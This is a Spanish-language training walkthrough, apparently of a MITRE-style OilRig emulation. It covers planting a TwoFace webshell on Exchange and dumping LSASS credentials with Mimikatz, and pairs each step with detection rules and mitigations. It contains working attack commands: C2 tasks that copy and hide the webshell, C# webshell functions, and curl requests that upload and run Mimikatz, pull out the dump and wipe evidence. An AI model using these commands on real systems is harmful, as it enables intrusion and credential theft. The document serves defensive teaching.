Get-ChildItem -Path "C:\Users\*\AppData\Roaming" -Filter "*.dat" -Recurse -ErrorAction SilentlyContinue |
Where-Object { $_.CreationTime -gt (Get-Date).AddDays(-7) }
```

##### **Estrategias de Mitigación**

**Prevención:**

1. **Política de Almacenamiento de Credenciales**
   - Educar a usuarios sobre riesgos de guardar credenciales en navegadores
   - Implementar gestor de contraseñas corporativo con cifrado adicional
   - Deshabilitar almacenamiento automático de credenciales vía GPO:
     ```
     Computer Configuration → Administrative Templates →
     Windows Components → Credential User Interface →
     "Require trusted path for credential entry" = Enabled
     ```

2. **Restricción de Ejecución**
   - AppLocker: Bloquear ejecución desde %APPDATA%
   - Windows Defender Application Control (WDAC)
   - Regla de ejemplo:
     ```xml
     <FilePathRule>
       <Conditions>
         <FilePathCondition Path="%APPDATA%\*.exe" />
       </Conditions>
       <Exceptions />
       <Action Type="Deny" />
     </FilePathRule>
     ```

3. **Credential Guard**
   - Habilitar Windows Defender Credential Guard (Windows 10 Enterprise)
   - Proporciona protección adicional basada en virtualización
   - No protege Vault, pero dificulta ataques a LSASS

**Detección:**

1. **EDR con Detección de Comportamiento**
   - Monitorear llamadas a APIs de Vault desde procesos inusuales
   - Detectar patrones de descarga → ejecución → exfiltración

2. **Auditoría de Acceso a Credenciales**
   - Habilitar "Audit Credential Validation" en GPO
   - Monitorear Event ID 4648 (Logon with explicit credentials)

3. **Análisis de Tráfico de Red**
   - DLP para detectar exfiltración de bases de datos SQLite
   - Inspeccionar payloads Base64 en tráfico HTTP

**Respuesta:**

1. **Contención Inmediata:**
   - Aislar el sistema de la red
   - Deshabilitar cuenta de usuario comprometida
   - Forzar reset de contraseña de Gosta

2. **Análisis Forense:**
   - Adquirir memoria RAM para análisis
   - Examinar `fsociety.dat` si aún existe
   - Revisar historial de comandos ejecutados

3. **Remediación:**
   - Eliminar b.exe y fsociety.dat
   - Limpiar Windows Vault del usuario
   - Verificar si las credenciales fueron usadas para acceso indebido

4. **Hunting Extendido:**
   - Buscar b.exe en otros sistemas
   - Identificar otros sistemas donde Gosta ha iniciado sesión
   - Revisar logs de autenticación para uso de credenciales robadas

---

### **Fase 2: Movimiento Lateral hacia Exchange**

#### **Paso 4: Instalación del Web Shell en EWS**

##### **Objetivo de la Actividad**

Establecer persistencia adicional en el servidor Exchange (WATERFALLS) mediante la instalación del webshell personalizado TwoFace, que proporcionará acceso remoto independiente del implante SideTwist y permitirá ejecutar comandos con privilegios de SYSTEM.

##### **Contexto del Escenario**

Con las credenciales de Gosta obtenidas en el paso anterior, los atacantes ahora poseen capacidad para acceder al servidor Exchange. Sin embargo, en lugar de depender únicamente de credenciales robadas, OilRig establece un mecanismo de acceso más permanente y sigiloso: un webshell ASP.NET.

El webshell se instala en el directorio de Exchange Web Services (EWS), donde se mezcla con los archivos legítimos de ASP.NET del servidor Exchange. Esta ubicación es estratégica porque:
1. Los archivos .aspx son legítimos en ese directorio
2. El servidor IIS ya está configurado para ejecutar código ASP.NET
3. El acceso se realiza mediante HTTPS legítimo (puerto 443)
4. Ejecuta con privilegios de SYSTEM (contexto de IIS/ApplicationPoolIdentity)

##### **Técnicas MITRE ATT&CK**

**T1105 - Ingress Tool Transfer**
- TwoFace (contact.aspx) se descarga vía SideTwist
- El archivo se transfiere del C2 al sistema comprometido

**T1570 - Lateral Tool Transfer**
- contact.aspx se copia desde THEBLOCK hacia WATERFALLS
- Utiliza SMB administrativo (C$) con credenciales de Gosta

**T1505.003 - Server Software Component: Web Shell**
- Instalación de webshell en servidor web legítimo (IIS/Exchange)
- Proporciona acceso persistente vía HTTP/HTTPS

**T1564.001 - Hide Artifacts: Hidden Files and Directories**
- Uso del atributo +h para ocultar el webshell
- Dificulta descubrimiento mediante navegación visual

**T1070.004 - Indicator Removal on Host: File Deletion**
- Eliminación de contact.aspx de THEBLOCK después de copiar a WATERFALLS
- Reduce evidencia forense en el sistema inicial

##### **Flujo de Ejecución Técnica**

**Paso 1: Descarga del Webshell a THEBLOCK**

```bash
./evalsC2client.py --set-task goTb '102 C:\Users\Public\contact.aspx|contact.aspx'
```

**Proceso:**
1. SideTwist recibe la instrucción de descargar contact.aspx
2. Realiza petición GET al C2 (192.168.0.4:443)
3. Recibe contact.aspx cifrado y codificado
4. Descifra y guarda en `C:\Users\Public\contact.aspx`

**Nota de implementación:**
En la emulación con CALDERA, el archivo se descarga primero a la ubicación del agente (`C:\Users\gosta\AppData\Local\SystemFailureReporter\`) y luego se copia a `C:\Users\Public\`. Esto es una variación técnica pero el resultado operacional es el mismo.

**Paso 2: Copia del Webshell al Servidor Exchange**

```bash
./evalsC2client.py --set-task goTb '101 copy C:\Users\Public\contact.aspx "\\10.1.0.6\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\"'
```

**Desglose del comando:**
- `copy`: Comando de Windows para copiar archivos
- `C:\Users\Public\contact.aspx`: Archivo origen
- `\\10.1.0.6\C$\...`: Ruta UNC al share administrativo C$ de WATERFALLS
- Destino: Directorio EWS de Exchange Server

**Autenticación:**
- Utiliza el token de seguridad actual de Gosta
- Gosta es miembro de "EWS Admins", lo que proporciona acceso administrativo a WATERFALLS
- No se requiere especificar credenciales explícitamente (single sign-on Kerberos)

**Ruta completa de instalación:**
```
\\10.1.0.6\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\contact.aspx
```

Esta ruta es accesible vía web como:
```
https://10.1.0.6/ews/contact.aspx
```

**Paso 3: Ocultar el Webshell**

```bash
./evalsC2client.py --set-task goTb '101 attrib +h "\\10.1.0.6\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\contact.aspx"'
```

**Propósito:**
- Establece el atributo "oculto" en contact.aspx
- El archivo no aparece en exploraciones de archivos normales
- Requiere `dir /a:h` o configuración de "mostrar archivos ocultos" para verlo

**Limitaciones de esta técnica:**
- No oculta de herramientas forenses
- No oculta de listados recursivos con parámetros apropiados
- No oculta de escaneos de seguridad que ignoran atributos

**Paso 4: Eliminación de Evidencia Local**

```bash
./evalsC2client.py --set-task goTb '101 attrib +h "\\10.1.0.6\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\contact.aspx" & del C:\Users\Public\contact.aspx'
```

(Este comando combina el atributo oculto y la eliminación en una sola línea)

**Propósito:**
- Eliminar contact.aspx de THEBLOCK
- Reduce el footprint del atacante
- Dificulta reconstrucción forense del ataque
- Mantiene solo una copia del webshell (en WATERFALLS)

##### **Análisis del Malware: TwoFace Webshell**

**Arquitectura de TwoFace:**

TwoFace es un webshell de dos etapas, aunque en esta emulación se usa una versión simplificada de una sola etapa que combina todas las funcionalidades.

**Arquitectura Original (CTI):**
1. **Etapa 1 (loader):** Webshell mínimo que carga la segunda etapa desde archivo o URL
2. **Etapa 2 (funcional):** Webshell completo con todas las capacidades

**Arquitectura de Emulación (simplificada):**
- Un único archivo contact.aspx con todas las capacidades
- Funciones de upload, download y ejecución de comandos integradas

**Lenguaje y Tecnología:**
- ASP.NET (C# en código behind)
- Compilado dinámicamente por IIS al primer acceso
- Ejecuta en el contexto del Application Pool de Exchange

**Características Principales:**

1. **Autenticación NTLM Integrada**
   - Requiere credenciales válidas de dominio para acceder
   - Utiliza autenticación de Windows IIS
   - No hay backdoor password hardcodeado
   - Los atacantes usan credenciales de Gosta: `BOOMBOX\gosta:d0ntGoCH4$ingW8trfalls`

2. **Ejecución de Comandos (cmd)**
   ```csharp
   // Parseo de parámetros
   string program = Request.Form["pro"];  // ej: cmd.exe
   string command = Request.Form["cmd"];  // ej: whoami

   // Ejecución
   Process.Start(new ProcessStartInfo {
       FileName = program,
       Arguments = "/c " + command,
       RedirectStandardOutput = true,
       UseShellExecute = false
   });
   ```

3. **Upload de Archivos al Servidor (Arbitrary Folder Upload)**
   ```csharp
   // Parámetros
   string uploadIndicator = Request.Form["upl"];     // "f1"
   string savePath = Request.Form["sav"];             // ej: C:\Windows\Temp\
   string newName = Request.Form["nen"];              // ej: m64.exe
   HttpPostedFile file = Request.Files["f1"];         // archivo subido

   // Guardado
   file.SaveAs(Path.Combine(savePath, newName));
   ```

4. **Download de Archivos desde el Servidor (File Download)**
   ```csharp
   // Parámetro
   string downloadPath = Request.Form["don"];  // ej: C:\Windows\Temp\01.txt

   // Descarga
   Response.TransmitFile(downloadPath);
   Response.ContentType = "application/octet-stream";
   ```

5. **Eliminación de Archivos Temporales**
   ```csharp
   // Limpieza de archivos subidos/descargados
   File.Delete(tempFilePath);
   ```

**Flujo de Uso del Webshell:**

```bash
# Ejemplo: Ejecutar comando whoami
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' \
     -k -X POST \
     --data "pro=cmd.exe" \
     --data "cmd=whoami" \
     https://10.1.0.6/ews/contact.aspx
```

**Parámetros:**
- `--http1.1`: Forzar HTTP/1.1 (compatibilidad)
- `--ntlm`: Usar autenticación NTLM
- `-u 'boombox\gosta:...'`: Credenciales de dominio
- `-k`: Ignorar errores de certificado SSL
- `--data "pro=cmd.exe"`: Programa a ejecutar
- `--data "cmd=whoami"`: Comando a pasar al programa

**Respuesta:**
```
nt authority\system
```

(El webshell ejecuta como SYSTEM porque IIS/Exchange típicamente opera bajo este contexto)

##### **Camuflaje y Evasión**

**1. Nombre del Archivo: contact.aspx**
- Nombre genérico que podría ser legítimo en un servidor Exchange
- No levanta sospechas al revisar listados de archivos
- Similar a otros archivos en el directorio EWS (auth.aspx, default.aspx, etc.)

**2. Ubicación Estratégica**
```
\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\
```
- Directorio que legítimamente contiene archivos .aspx
- Mezclado con decenas de otros archivos ASP.NET
- Difícil de identificar sin análisis de contenido

**3. Autenticación Legítima**
- Requiere credenciales válidas de dominio
- No se puede acceder sin autenticación
- Escaneos automatizados sin credenciales no lo detectarán como webshell

**4. Sin Indicadores Obvios**
- No contiene strings típicos de webshells (ej: "c99", "r57", "shell", etc.)
- Código ofuscado o con variables con nombres legítimos
- Funciona exactamente como componente de Exchange desde perspectiva de red

**5. Tráfico HTTPS Legítimo**
- Las peticiones al webshell son HTTPS hacia Exchange Server
- Indistinguibles de tráfico legítimo de OWA/EWS
- Misma dirección IP y puerto que servicios legítimos

##### **Oportunidades de Detección**

**Nivel de Red:**

1. **Acceso SMB Admin (C$) desde Workstation**
   ```
   Source: THEBLOCK (10.1.0.5)
   Destination: WATERFALLS (10.1.0.6)
   Protocol: SMB (445/TCP)
   Share: \\10.1.0.6\C$
   Path: \Program Files\Microsoft\Exchange Server\...
   ```
   - Workstations típicamente no acceden shares administrativos de servidores
   - Inusual que workstation copie archivos a directorio de Exchange

2. **Creación de Archivo en Directorio EWS**
   ```
   Event ID: 4663 (Attempt to access object)
   Object Name: ...\ews\contact.aspx
   Access: WriteData
   Process: System
   Account: BOOMBOX\gosta
   ```

**Nivel de Archivo:**

1. **Nuevo Archivo .aspx en Directorio EWS**
   - Monitorear creación de archivos en directorios de aplicaciones web
   - Especialmente archivos no firmados o no parte de instalación

2. **Atributos de Archivo Sospechosos**
   - Archivo .aspx con atributo oculto (+h)
   - Fecha de creación reciente en directorio estable
   - Falta de firma digital (archivos de Microsoft están firmados)

**Detección con File Integrity Monitoring (FIM):**

```xml
<!-- OSSEC rule example -->
<rule id="550" level="7">
  <if_sid>554</if_sid>
  <match>Program Files\Microsoft\Exchange Server\V15\ClientAccess</match>
  <description>File added to Exchange Server directory</description>
</rule>
```

**Detección mediante Análisis de Código:**

```powershell
# Buscar archivos .aspx con funcionalidades sospechosas
Get-ChildItem "C:\Program Files\Microsoft\Exchange Server" -Recurse -Filter "*.aspx" |
ForEach-Object {
    $content = Get-Content $_.FullName -Raw
    if ($content -match "ProcessStartInfo|Process\.Start|cmd\.exe|Request\.Form") {
        Write-Output "Suspicious: $($_.FullName)"
    }
}
```

**Indicadores de Comportamiento:**

1. **Ejecución de cmd.exe desde w3wp.exe**
   ```
   Parent Process: w3wp.exe (IIS Worker Process)
   Child Process: cmd.exe
   Command Line: cmd.exe /c [comando]
   User: NT AUTHORITY\SYSTEM
   ```

2. **Acceso a Archivos Sensibles por IIS**
   - IIS (w3wp.exe) leyendo archivos fuera de directorios web estándar
   - Acceso a SAM, SYSTEM, archivos de usuario, etc.

**Detección con Sysmon:**

```xml
<Sysmon>
  <EventFiltering>
    <ProcessCreate onmatch="include">
      <ParentImage condition="end with">w3wp.exe</ParentImage>
      <Image condition="end with">cmd.exe</Image>
    </ProcessCreate>
  </EventFiltering>
</Sysmon>
```

**Hunting con Logs de IIS:**

```powershell
# Buscar POSTs a archivos .aspx inusuales
Get-Content "C:\inetpub\logs\LogFiles\W3SVC1\*.log" |
Select-String "POST /ews/contact.aspx" |
ForEach-Object {
    $fields = $_ -split ' '
    [PSCustomObject]@{
        Date = $fields[0]
        Time = $fields[1]
        ClientIP = $fields[8]
        Method = $fields[3]
        URI = $fields[4]
        Status = $fields[11]
    }
}
```

##### **Estrategias de Mitigación**

**Prevención:**

1. **File Integrity Monitoring (FIM)**
   - Monitorear directorios de Exchange con OSSEC, Tripwire, o similar
   - Alertar sobre cualquier modificación/creación de archivos .aspx
   - Línea base de archivos legítimos post-instalación

2. **Principio de Menor Privilegio**
   - Los administradores de Exchange no deberían tener acceso write a directorios de aplicación desde workstations
   - Separar cuentas administrativas de cuentas de uso diario
   - Implementar estaciones de trabajo administrativas dedicadas (PAW)

3. **Application Whitelisting en Servidores Web**
   - Solo permitir ejecución de procesos específicos desde IIS
   - Denegar spawning de cmd.exe, powershell.exe desde w3wp.exe
   - Implementar con Windows Defender Application Control (WDAC):
     ```xml
     <Deny>
       <ParentProcess>w3wp.exe</ParentProcess>
       <ChildProcess>cmd.exe</ChildProcess>
     </Deny>
     ```

4. **Segmentación de Red**
   - Workstations no deberían tener acceso SMB directo a servidores
   - Implementar firewall de host en servidores para restringir SMB a solo servidores de gestión

**Detección:**

1. **EDR en Servidores Exchange**
   - Monitorear spawning de procesos sospechosos desde IIS
   - Detectar acceso a archivos sensibles por w3wp.exe
   - Alertar sobre ejecución de herramientas de pentesting (mimikatz, psexec, etc.)

2. **Network Behavior Analytics**
   - Detectar tráfico SMB inusual (workstation → server)
   - Identificar acceso a shares administrativos desde endpoints no autorizados

3. **Regular Webshell Scanning**
   - Escanear directorios web con herramientas como NeoPI, BackdoorMan
   - Buscar patrones de código sospechosos en archivos .aspx
   - Comparar hash de archivos con baseline conocido

**Respuesta:**

1. **Contención Inmediata:**
   - Eliminar contact.aspx del servidor Exchange
   - Revisar logs de IIS para identificar comandos ejecutados
   - Cambiar contraseñas de cuentas comprometidas (Gosta)
   - Aislar WATERFALLS si hay actividad maliciosa activa

2. **Análisis Forense:**
   - Adquirir logs de IIS completos
   - Examinar journal NTFS para identificar cuándo se creó el archivo
   - Revisar logs de autenticación para rastrear uso de credenciales

3. **Erradicación:**
   - Verificar que no existan otros webshells
   - Escanear todos los servidores IIS de la organización
   - Revisar permisos en directorios de aplicaciones web

4. **Recuperación:**
   - Restaurar configuración de Exchange desde backup limpio si es necesario
   - Implementar FIM antes de volver a producción
   - Forzar rotación de credenciales de todas las cuentas administrativas

**Lecciones Aprendidas:**

- Implementar FIM es crítico en servidores de aplicaciones
- Administradores no deberían trabajar con cuentas privilegiadas desde workstations
- Monitoreo de spawning de cmd.exe desde IIS es detector efectivo
- Webshells en Exchange son vector común en campañas APT

---

> **\[Clase — omitido en sesión\]** **Paso 5: Reconocimiento del Servidor Exchange (WATERFALLS).** Desde la sesión TwoFace, el atacante enumera el Exchange Server: servicios activos, usuarios del dominio, configuración EWS. Mismo patrón de discovery que Paso 2 aplicado al servidor Exchange. Resultado: localización del servidor SQL ENDOFROAD (10.1.0.7) y usuario *BOOMBOX\\tous*. Ver backup para detalle completo.

---

#### **Paso 6: Volcado de Credenciales Privilegiadas**

##### **Objetivo de la Actividad**

Utilizar Mimikatz en el servidor Exchange (WATERFALLS) para volcar credenciales de memoria LSASS, específicamente obteniendo el hash NTLM del usuario "tous" (administrador SQL), que será utilizado para movimiento lateral hacia el servidor SQL.

##### **Contexto del Escenario**

El reconocimiento del paso anterior reveló la existencia y ubicación del servidor SQL (10.1.0.7). Para acceder a este servidor, los atacantes necesitan credenciales del usuario "tous", quien fue identificado en el Paso 2 como miembro del grupo "SQL Admins".

Dado que el webshell TwoFace ejecuta con privilegios de SYSTEM, los atacantes tienen el nivel de acceso necesario para ejecutar Mimikatz y extraer credenciales de la memoria del proceso LSASS (Local Security Authority Subsystem Service), que almacena credenciales de usuarios que han iniciado sesión en el servidor.

La estrategia implica:
1. Subir Mimikatz al servidor Exchange usando el webshell
2. Ejecutar Mimikatz para volcar credenciales de memoria
3. Guardar la salida en un archivo de texto
4. Exfiltrar el archivo con las credenciales al sistema del atacante
5. Limpiar evidencia eliminando Mimikatz y el archivo de salida

##### **Técnicas MITRE ATT&CK**

**T1105 - Ingress Tool Transfer**
- Subida de Mimikatz (m64.exe) al servidor Exchange vía webshell
- Transferencia de herramienta de ataque desde sistema atacante

**T1003.001 - OS Credential Dumping: LSASS Memory**
- Extracción de credenciales desde memoria del proceso LSASS
- Obtención de hashes NTLM de usuarios autenticados

**T1041 - Exfiltration Over C2 Channel**
- Exfiltración del archivo con credenciales volcadas
- Uso del webshell como canal de exfiltración

**T1070.004 - Indicator Removal on Host: File Deletion**
- Eliminación de Mimikatz y archivo de salida
- Limpieza de artefactos para dificultar análisis forense

##### **Flujo de Ejecución Técnica**

**Paso 1: Subida de Mimikatz al Servidor Exchange**

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' \
     -k -X POST \
     -F "upl=f1" \
     -F 'sav=C:\Windows\temp\' \
     -F "vir=false" \
     -F "nen=m64.exe" \
     -F 'f1=@m64.exe' \
     https://10.1.0.6/EWS/contact.aspx
```

**Desglose de parámetros:**
- `-F "upl=f1"`: Indicador para función de upload del webshell
- `-F 'sav=C:\Windows\temp\'`: Directorio de destino donde guardar el archivo
- `-F "vir=false"`: Parámetro de configuración del webshell
- `-F "nen=m64.exe"`: Nuevo nombre para el archivo (Mimikatz)
- `-F 'f1=@m64.exe'`: Archivo local a subir (@ indica archivo desde disco)

**Proceso en el servidor:**
1. El webshell TwoFace recibe la petición POST con multipart/form-data
2. Extrae el archivo subido desde Request.Files["f1"]
3. Lo guarda en `C:\Windows\Temp\m64.exe`
4. Responde con confirmación de subida exitosa

**Ubicación del archivo:**
```
C:\Windows\Temp\m64.exe
```

**Razón de la ubicación:**
- `C:\Windows\Temp\` es un directorio común para archivos temporales
- SYSTEM tiene permisos completos de lectura/escritura
- Es menos sospechoso que ubicaciones de usuario
- Fácil de limpiar posteriormente

**Paso 2: Ejecución de Mimikatz para Volcado de Credenciales**

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' \
     -k -X POST \
     --data "pro=cmd.exe" \
     --data "cmd=C:\Windows\Temp\m64.exe privilege::debug sekurlsa::logonPasswords exit 1> C:\Windows\Temp\01.txt" \
     https://10.1.0.6/ews/contact.aspx
```

**Comando de Mimikatz desglosado:**

1. **`privilege::debug`**
   - Habilita el privilegio SeDebugPrivilege
   - Permite acceder a procesos de otros usuarios
   - Necesario para leer memoria de LSASS
   - **Nota**: En este caso es redundante porque SYSTEM ya tiene este privilegio

2. **`sekurlsa::logonPasswords`**
   - Módulo de Mimikatz que lee credenciales de memoria LSASS
   - Extrae:
     - Nombres de usuario
     - Dominios
     - Hashes NTLM
     - Hashes LM (si están habilitados)
     - Contraseñas en texto claro (si están en memoria)
     - Tickets Kerberos

3. **`exit`**
   - Termina la ejecución de Mimikatz
   - Devuelve control al shell

4. **`1> C:\Windows\Temp\01.txt`**
   - Redirige la salida estándar (stdout) a un archivo
   - Guarda todos los resultados en `01.txt`

**Salida de Mimikatz (ejemplo):**

```
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonPasswords

Authentication Id : 0 ; 523801 (00000000:0007fda9)
Session           : Interactive from 1
User Name         : tous
Domain            : BOOMBOX
Logon Server      : DISKJOCKEY
Logon Time        : 10/19/2025 2:15:32 PM
SID               : S-1-5-21-3623811015-3361044348-30300820-1106
        msv :
         [00000003] Primary
         * Username : tous
         * Domain   : BOOMBOX
         * NTLM     : 9b7ff4cc0878bee9f099a4a7dc7227c3
         * SHA1     : 8c2e4fc3d8e1b5c9f2a3e4b1d6c7a8f9
        tspkg :
        wdigest :
        kerberos :
         * Username : tous
         * Domain   : BOOMBOX.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : WATERFALLS$
Domain            : BOOMBOX
...
```

**Hallazgo crítico:**
```
User Name : tous
Domain    : BOOMBOX
NTLM      : 9b7ff4cc0878bee9f099a4a7dc7227c3
```

Este hash NTLM es la clave para el próximo paso (pass-the-hash).

**Paso 3: Exfiltración del Archivo con Credenciales**

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' \
     -k -X POST \
     -o 01.txt \
     --data 'don=c:\windows\temp\01.txt' \
     https://10.1.0.6/EWS/contact.aspx
```

**Desglose:**
- `-o 01.txt`: Guardar respuesta en archivo local `01.txt`
- `--data 'don=c:\windows\temp\01.txt'`: Parámetro de "download" del webshell

**Proceso:**
1. El webshell TwoFace lee `C:\Windows\Temp\01.txt`
2. Envía el contenido como respuesta HTTP
3. `curl` guarda la respuesta en `./01.txt` localmente

**Verificación de la exfiltración:**

En la plataforma de ataque Linux:

```bash
cat 01.txt
```

El operador revisa el archivo y confirma la presencia del hash NTLM de "tous".

**Paso 4: Limpieza de Evidencia**

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' \
     -k -X POST \
     --data "pro=cmd.exe" \
     --data "cmd=del C:\windows\temp\01.txt C:\windows\temp\m64.exe" \
     https://10.1.0.6/ews/contact.aspx
```

**Archivos eliminados:**
- `C:\Windows\Temp\m64.exe` (Mimikatz)
- `C:\Windows\Temp\01.txt` (salida con credenciales)

**Propósito:**
- Reducir footprint forense
- Dificultar reconstrucción del ataque
- Eliminar evidencia de herramientas utilizadas

**Limitaciones de la limpieza:**
- Los archivos pueden recuperarse con herramientas forenses
- El journal NTFS mantiene registros de creación/eliminación
- Event Logs pueden contener evidencia de ejecución
- Mimikatz deja rastros en memoria temporalmente

##### **Análisis Técnico: Mimikatz**

**¿Qué es Mimikatz?**

Mimikatz es una herramienta de código abierto desarrollada por Benjamin Delpy que permite extraer credenciales de Windows desde múltiples fuentes. Aunque tiene usos legítimos en auditorías de seguridad, es ampliamente utilizada por atacantes para robo de credenciales.

**Funcionamiento Técnico:**

1. **Acceso a LSASS:**
   - LSASS (lsass.exe) gestiona autenticación en Windows
   - Almacena credenciales en memoria para Single Sign-On
   - Mimikatz abre un handle al proceso LSASS usando OpenProcess()
   - Requiere SeDebugPrivilege para acceder a procesos protegidos

2. **Lectura de Memoria:**
   - Utiliza ReadProcessMemory() para leer memoria de LSASS
   - Busca estructuras de datos específicas de autenticación
   - Parsea diferentes providers (MSV1_0, Kerberos, WDigest, etc.)

3. **Extracción de Credenciales:**
   - **Hashes NTLM**: Hash de una vía de la contraseña
   - **Hashes LM**: Esquema legacy, raramente usado
   - **Tickets Kerberos**: TGT y TGS para autenticación
   - **Contraseñas en texto claro**: Si WDigest está habilitado

**Capacidades Clave de Mimikatz:**

| Módulo                     | Función                      | Uso en este Ataque     |
| -------------------------- | ---------------------------- | ---------------------- |
| `privilege::debug`         | Habilita SeDebugPrivilege    | Sí (aunque redundante) |
| `sekurlsa::logonPasswords` | Extrae credenciales de LSASS | Sí (principal)         |
| `sekurlsa::pth`            | Pass-the-hash                | Sí (Paso 8)            |
| `lsadump::sam`             | Vuelca SAM database          | No                     |
| `kerberos::golden`         | Crea Golden Tickets          | No                     |

**Detección de Mimikatz:**

Mimikatz es una de las herramientas más detectadas por soluciones de seguridad:

1. **Firma binaria**: EDR/AV detectan el ejecutable
2. **Strings en memoria**: Cadenas únicas de Mimikatz
3. **Comportamiento**: Acceso a memoria de LSASS es altamente sospechoso

**Por qué funciona en este escenario:**
- Windows Defender deshabilitado en el entorno de evaluación
- EDR no desplegado o deshabilitado
- Ejecución con privilegios de SYSTEM

##### **Oportunidades de Detección**

**Nivel de Proceso:**

1. **Acceso a Memoria de LSASS**
   ```
   Event ID: 10 (Sysmon - ProcessAccess)
   SourceImage: C:\Windows\Temp\m64.exe
   TargetImage: C:\Windows\System32\lsass.exe
   GrantedAccess: 0x1010 (PROCESS_QUERY_INFORMATION | PROCESS_VM_READ)
   CallTrace: [Suspicious]
   ```

   **Importancia crítica:**
   - Acceso a memoria de LSASS es indicador de robo de credenciales
   - Muy pocos procesos legítimos acceden a LSASS
   - Combinación de proceso no firmado + acceso a LSASS = alta confianza de malicia

2. **Ejecución de Ejecutable No Firmado en Windows\Temp**
   ```
   Process: C:\Windows\Temp\m64.exe
   Signed: False
   Parent: cmd.exe
   GrandParent: w3wp.exe
   User: NT AUTHORITY\SYSTEM
   ```

**Reglas de Detección Específicas:**

```yaml
# Sigma Rule: Mimikatz Detection via LSASS Access
title: Credential Dumping via LSASS Memory Access
status: stable
description: Detecta acceso sospechoso a memoria de LSASS, típico de Mimikatz
logsource:
    product: windows
    service: sysmon
    definition: 'EventID 10 - ProcessAccess'
detection:
    selection:
        TargetImage|endswith: '\lsass.exe'
        GrantedAccess|contains:
            - '0x1010'
            - '0x1410'
            - '0x147a'
    filter_legit:
        SourceImage|startswith:
            - 'C:\Program Files\'
            - 'C:\Windows\System32\'
    condition: selection and not filter_legit
falsepositives:
    - Herramientas legítimas de seguridad (AV, EDR)
    - Software de gestión de contraseñas corporativo
level: critical
tags:
    - attack.credential_access
    - attack.t1003.001
```

**Nivel de Archivo:**

1. **Creación de Archivo Sospechoso**
   ```
   Event ID: 11 (Sysmon - FileCreate)
   Image: C:\Windows\System32\inetsrv\w3wp.exe
   TargetFilename: C:\Windows\Temp\m64.exe
   CreationUtcTime: 2025-10-19 14:45:23
   ```

2. **Creación de Archivo de Salida**
   ```
   Event ID: 11 (Sysmon - FileCreate)
   Image: C:\Windows\Temp\m64.exe
   TargetFilename: C:\Windows\Temp\01.txt
   ```

**Detección basada en Yara:**

```yara
rule Mimikatz_Binary {
    meta:
        description = "Detecta binarios de Mimikatz"
        author = "Security Team"
        date = "2025-10-19"
    strings:
        $str1 = "gentilkiwi" ascii wide
        $str2 = "sekurlsa::logonpasswords" ascii wide nocase
        $str3 = "privilege::debug" ascii wide nocase
        $str4 = "benjamin@gentilkiwi.com" ascii wide
    condition:
        2 of them
}
```

**Nivel de Red:**

1. **Upload de Archivo Ejecutable**
   ```
   IIS Log Entry:
   POST /EWS/contact.aspx - 443
   Content-Type: multipart/form-data
   Content-Length: 1285632
   Status: 200
   ```

   - Tamaño de ~1.2MB consistente con Mimikatz
   - Content-Type multipart indica upload de archivo

2. **Download de Archivo de Texto**
   ```
   IIS Log Entry:
   POST /EWS/contact.aspx - 443
   Response-Size: 45823
   Content-Type: application/octet-stream
   ```

**EDR/Behavioral Analytics:**

Secuencia de eventos que indica robo de credenciales:

```
1. [14:45:23] w3wp.exe → Escribe → C:\Windows\Temp\m64.exe
2. [14:45:45] cmd.exe (parent: w3wp.exe) → Ejecuta → m64.exe
3. [14:45:46] m64.exe → Accede memoria → lsass.exe
4. [14:45:47] m64.exe → Escribe → C:\Windows\Temp\01.txt
5. [14:45:50] w3wp.exe → Lee → C:\Windows\Temp\01.txt
6. [14:46:12] cmd.exe → Elimina → m64.exe, 01.txt
```

**Hunting con PowerShell:**

```powershell
# Buscar ejecuciones desde Windows\Temp con acceso a LSASS
Get-WinEvent -FilterHashtable @{
    LogName='Microsoft-Windows-Sysmon/Operational'
    ID=10  # ProcessAccess
} | Where-Object {
    $_.Properties[4].Value -like '*lsass.exe*'
} | ForEach-Object {
    [PSCustomObject]@{
        TimeCreated = $_.TimeCreated
        SourceImage = $_.Properties[2].Value
        TargetImage = $_.Properties[4].Value
        GrantedAccess = $_.Properties[7].Value
    }
} | Where-Object {
    $_.SourceImage -like '*\Temp\*' -or
    $_.SourceImage -like '*\AppData\*'
}
```

##### **Estrategias de Mitigación**

**Prevención:**

1. **Credential Guard (Windows 10/Server 2016+)**
   - Aísla LSASS usando Virtualization-Based Security (VBS)
   - Credenciales almacenadas en proceso protegido (LSAIso)
   - Mimikatz no puede acceder a credenciales protegidas
   - Habilitación vía GPO:
     ```
     Computer Configuration → Administrative Templates →
     System → Device Guard →
     Turn On Virtualization Based Security → Enabled
     Credential Guard Configuration → Enabled with UEFI lock
     ```

2. **LSA Protection**
   - Marca LSASS como proceso protegido
   - Drivers sin firma no pueden inyectar código
   - Habilitación via Registry:
     ```
     HKLM\SYSTEM\CurrentControlSet\Control\Lsa
     RunAsPPL = dword:00000001
     ```

3. **Deshabilitar WDigest**
   - WDigest almacena contraseñas reversibles en memoria
   - Deshabilitar para prevenir extracción de texto claro
   - Registry:
     ```
     HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest
     UseLogonCredential = dword:00000000
     ```

4. **Application Whitelisting**
   - Solo permitir ejecutables firmados
